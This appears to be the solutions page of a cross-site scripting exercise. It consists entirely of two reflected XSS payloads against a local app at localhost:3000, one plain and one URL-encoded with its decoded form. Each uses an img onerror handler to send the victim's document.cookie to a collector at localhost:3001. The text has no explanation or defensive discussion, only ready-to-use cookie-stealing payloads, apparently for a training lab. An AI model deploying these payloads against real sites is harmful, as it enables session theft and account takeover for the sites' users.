 
# Solutions
1. `http://localhost:3000/?q=<img src=x onerror=this.src='http://localhost:3001/cookie?data='+document.cookie;>`

2. encoded - `%3Cimg%20src%3Dx%20onerror%3D%22var%20img%20%3D%20document%2EcreateElement%28%27img%27%29%3B%20img%2Esrc%20%3D%20%27http%3A%2F%2Flocalhost%3A3001%2Fcookie%3Fdata%3D%27%20%2B%20document%2Ecookie%3B%22%3E
`
decoded - `<img src=x onerror="var img = document.createElement('img'); img.src = 'http://localhost:3001/cookie?data=' + document.cookie;">`
